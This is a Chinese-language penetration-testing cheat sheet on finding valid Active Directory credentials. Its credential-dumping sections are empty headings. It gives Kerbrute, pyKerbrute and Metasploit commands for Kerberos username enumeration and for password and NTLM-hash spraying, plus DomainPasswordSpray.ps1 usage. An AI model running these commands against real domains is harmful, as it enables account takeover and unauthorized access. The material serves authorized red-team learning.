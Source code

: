 ```yaml
---
description: 枚举用户名 + 密码喷洒 = 获取有效凭证 / 枚举出用户名
---
```


# ✔️ 枚举域内有效凭证

## 先决条件

* 已经在目标域中建立了基本的立足点
* 有足够权限利用域内的查询命令 / 工具

## 获取明文身份凭证

### LAS Secrets





### LSASS Process

*



### LSASS Protection bypass







### Credential Manager





## 获取Hash身份凭证

### 通过SAM数据库获取本地用户Hash凭证





### 通过域控的ntds.dit文件

#### 本地提取



#### 远程提取



## 用户名枚举工具&使用

### Kerbrute

* `userenum`：指定操作为用户名枚举
* `usernames.txt`：包含待枚举用户名的文件（可以是字典，也可以是针对目标域收集到的用户名列表）

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 和Kerbrute类似（该工具用python写的）
* 用的是：**EnumADUser.py**

```bash
// TCP模式
python EnumADUser.py 域控IP 目标域名 username.txt tcp
// UDP模式
python EnumADUser.py 域控IP 目标域名 username.txt udp
```

### MSF

* 模块：**auxiliary/gather/kerberos\_enumusers**

```bash
use auxiliary/gather/kerberos_enumusers
set domain 目标域名
set RHOSTS 域控IP
set user_file /tem/username.txt
run
```

## 密码喷洒工具&使用

### Kerbrute

* `passwordspray`：指定操作为密码喷洒

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 用的是：**ADPwdSpray.py**

```bash
// 针对明文密码进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 udp
// 针对密码Hash进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 udp
```

### DomainPasswordSpray.ps1

* 该工具为powershell脚本
* 需要在目标域内机器上执行
* 原理：利用LDAP从域中导出列表->去除被锁定的用户->进行密码喷洒

```powershell
Import-Module.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 已知的明文密码
```

{% hint style="info" %}
在域渗透的过程中，枚举域内有效凭证的作用是为了收集更多有利于权限提升、横向移动等操作所需要的必要身份验证信息。本质上是为了冒充合法的高权限用户，绕过目标的安全限制，达到访问目标受限资源和进一步扩大攻击面。
{% endhint %}
